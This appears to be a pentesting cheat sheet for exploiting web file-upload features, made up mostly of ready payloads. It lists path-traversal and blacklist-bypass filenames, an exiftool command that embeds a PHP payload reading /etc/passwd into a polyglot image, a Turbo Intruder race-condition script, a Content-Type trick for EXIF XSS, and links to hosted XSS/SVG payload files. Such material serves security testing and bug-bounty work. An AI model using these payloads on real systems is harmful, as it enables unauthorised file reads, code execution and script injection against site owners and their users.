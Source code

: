 # Upload Files

## Directory Traversal
```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
Content-Disposition: form-data; name="avatar"; filename="..%2exploit.php"
```
## Content-Type
Content-Type to image/jpeg.

## Extension blacklist bypass

```http
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
```

## Metadata
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```
## Race condition

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

## Test metadata
xss_comment_exif_metadata_double_quote.png
Reference: <a>https://hackerone.com/reports/964550
Change: <code>Content-Type:image/png - Content-Type: text/html

## If is possible to change src=
Add urls:
https://angeljuanma.github.io/bug-bounty/evil.svg
https://angeljuanma.github.io/bug-bounty/xss.svg
https://angeljuanma.github.io/bug-bounty/xss.html

